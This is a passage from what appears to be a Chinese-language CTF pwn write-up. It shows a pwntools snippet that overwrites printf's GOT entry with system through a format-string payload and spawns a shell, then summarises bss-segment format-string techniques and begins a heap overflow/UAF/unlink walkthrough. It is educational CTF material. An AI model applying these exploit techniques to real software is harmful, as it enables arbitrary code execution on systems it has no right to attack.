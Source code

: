 ```python
#我们开始来改写GOT表  
  
#需要一次性将printf的got修改为system  
#写低1字节  
payload = '%' + str(system_addr & 0xFF) + 'c%14$hhn'  
#写低2、3字节  
payload += '%' + str(((system_addr & 0xFFFF00)>>8)-0x10) + 'c%15$hn'  
r.sendlineafter('Try again!\n',payload)  
#getrell  
time.sleep(0.5)  
r.sendline('/bin/sh')  
  
r.interactive()  
```

## 4.简单总结下bss段上的格式化

总体分为2大类，bp链，args链的利用。

1.args链，args链一般指向是这样的 chain1->chain2->chain3

我们要做的就是更改chain2为bp+4(8)，chain3为onegadget或者system

主要对地址的拆分掌握

2.bss链，同样为chain1->chain2->chain3

我们修改chain2为chain3的地址让chain3改为printf的got表

然后再把chain2+4继续一步步更改printf的got加1

最后拆分写入system

## 8月8月

## 1.jarvisoj_level6_x64(堆溢出+UAF+unlink)

题目是Ubuntu16的，说实话我更喜欢有tcache，因为他的漏洞更好用更多。

这道题他的溢出emmm不太一样，一般我们溢出是直接可以盖过去的，他是直接转为生成一个chunk

这里最小的chunk是0x90大小

v4 = malloc((128 - v3 % 128) % 128 + v3);

溢出生成的那个chunk大小刚好在unsortedbin，通过溢出去泄露不太行，

我们这里的话还是用UAF漏洞去玩玩吧

### 思路：

1.泄露heap_base

这里的话我们玩他的fd bk指针

申请4个chunk分别是0,1,2,3
